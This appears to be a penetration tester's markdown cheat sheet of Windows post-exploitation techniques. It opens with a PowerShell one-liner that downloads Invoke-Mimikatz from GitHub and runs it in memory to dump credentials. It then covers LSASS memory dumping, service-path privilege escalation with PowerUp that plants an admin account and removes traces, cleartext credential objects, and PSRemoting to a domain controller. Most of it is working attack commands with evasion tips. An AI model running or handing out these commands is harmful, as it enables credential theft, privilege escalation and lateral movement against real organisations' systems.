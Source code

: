 # Windows
- Dump LSASS for to extract with MMK locally. If it's a really poorly-protected/monitored enviro you might be able to just run mimikatz
  ```
  # Invoke Mimikatz. Careful, likely won't work with AMSI etc.
  powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"
  # Or procdump.exe from sysinternals:   
  ```
  Fairly easy to RDP in, open Task Manager, find `lsass.exe` (might be `Local Security Authority...`), right click, and `Create Dump File`.
  ```
  # Run Mimikatz on your machine:
  sekurlsa::minidump C:\Users\admin\Documents\lsass.dmp
  sekurlsa::logonpasswords
  ```
- Poor service permissions & unquoted service paths. `PowerUp.ps1` can identify & exploit this:
  ```
  . .\PowerUp.ps1
  Invoke-Allchecks   # Finds unquoted => C:\Webserver\abyss web server\bla.exe
  Write-ServiceBinary -Name 'NameOfService' -Path 'C:\Webserver\abyss.exe'  # defaults adds user john & puts in local admin OR
  Write-ServiceBinary -name 'AbyssWebServer' -Path 'C:\Webserver\abyss.exe' -UserName psc-jm -Password PSCpwn3d
  Restart-Service AbyssWebServer
  net users psc-jm
  del C:\Webserver\abyss.exe  # house cleaning
  ```
- PowerShell credentials (untested):
  - Create credential material out of cleartext creds:
  ```
  $creds = Get-Credential  # interactive prompt
  # to use w/o a pop up and bad opsec:
  $user = 'evil.local\admin01'
  $password = convertto-securestring -String "boogie-boogie-boogie" -AsPlainText -Force
  $creds = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
  ```
- PSRemoting over TCP/5985 or TCP/5986[ssl] (WSMAN WinRM)
  - All of these will have the option to use `-Credential` to specify a separate cred other than default to logon creds, or `-ComputerName` which can take a single computer, or a list of compies for `Invoke-Command`
  - Run a script block on a server:
  ```
  Invoke-Command -ComputerName dc.evil.local -ScriptBlock {net users; net localgroup administrators}
  ```
  - Create a new powershell session. Default will use logon creds, but specify `-Credential` to pass in a PS cred
  ```
  $sesh = New-PSSession -ComputerName dc.evil.local
  Enter-PSSession -Session $sesh
  ```
